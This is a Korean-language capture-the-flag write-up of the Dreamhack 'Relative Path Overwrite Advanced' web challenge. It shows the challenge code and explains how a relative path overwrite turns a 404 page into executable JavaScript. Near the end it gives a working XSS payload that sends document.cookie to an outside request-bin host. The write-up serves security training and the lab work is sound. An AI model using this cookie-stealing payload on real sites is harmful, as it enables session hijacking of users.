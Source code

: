 ```yaml
---
title : Dreamhack - Relative Path Overwrite Advanced
categories: [Dreamhack, Webhacking]
date: 2022-04-24 13:14 +0900
tags: [Relative Path Overwrite, RPO]
---
```


## Relative Path Overwrite Advanced
<hr style="border-top: 1px solid;"><br>

변경된 부분

+ vuln.php

```php
<script src="filter.js"></script>
<pre id=param></pre>
<script>
    var param_elem = document.getElementById("param");
    var param = `<?php echo str_replace("`", "", $_GET['param']); ?>`;
    if (typeof filter === 'undefined') {
        param = "nope !!";
    }
    else {
        for (var i = 0; i < filter.length; i++) {
            if (param.toLowerCase().includes(filter[i])) {
                param = "nope !!";
                break;
            }
        }
    }

    param_elem.innerHTML = param;
</script>
```

<br>

+ ```000-default.conf```

```
RewriteEngine on
RewriteRule ^/(.*)\.(js|css)$ /static/$1 [L]

ErrorDocument 404 /404.php
```

<br>

+ 404.php

```php
<?php 
    header("HTTP/1.1 200 OK");
    echo $_SERVER["REQUEST_URI"] . " not found."; 
?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

rewriterule을 보면 404 에러가 뜨면 404.php가 해당 페이지에서 적용된다. 

예를 들어, ```/test.php```로 가면 404 error가 뜨므로 404.php가 적용되어서 ```/test.php not found.```라고 출력된다.

<br>

filter.js 코드를 불러오지 못하면 param=nope로 설정되어 DOM XSS를 할 수 없다.

그러나 문제는 static 폴더 안에 있는 filter.js가 안불러와져서 다른 방법을 이용해야 한다. (의도된 거?)

우선 확인을 해보았다.

<br>

+ ```http://host1.dreamhack.games:11710/?page=vuln```

![image](https://user-images.githubusercontent.com/52172169/164959478-731ae3e8-3877-48d2-afd8-4c180bb0f823.png)

<br>

+ ```http://host1.dreamhack.games:11710/index.php/?page=vuln```

![image](https://user-images.githubusercontent.com/52172169/164959492-aff15465-1ba4-48f4-8ceb-3c7449abb5a6.png)

<br>

그러면 filter.js가 로드되긴 하지만 404.php 코드가 적용되면서 위에 처럼 뜨게 된다.

중요한 점은 filter.js 자바스크립트 코드가 일단 로드된다는 점이다. 즉, 에러만 없다면 실행이 된다는 것이다.

**강의 내용에서 ```자바스크립트는 로드하는 코드 내에서 에러가 발생할 경우, 전체 코드를 실행하지 않기 때문에 문법 에러가 발생하지 않도록 신경써야 한다```를 기억해야 한다.**

<br>

+ ```http://host1.dreamhack.games:11710/index.php/;alert();///?page=vuln```

![image](https://user-images.githubusercontent.com/52172169/164959760-41812882-4f0c-4b70-98f1-3db5e1fe8a00.png)

<br>

위에 처럼 입력하면 alert가 실행된다. 

payload
: ```index.php/;location.href='https://iaxigfe.request.dreamhack.games/'+document.cookie;//?page=vuln```

<br>

single quote로 감싸면 인코딩을 안하는데 double quote는 인코딩을 하여 적용되지 않게 된다. 

URL 인코딩
: <a href="https://developers.google.com/maps/url-encoding?hl=ko" target="_blank">developers.google.com/maps/url-encoding?hl=ko</a>

<br><br>
<hr style="border: 2px solid;">
<br><br>
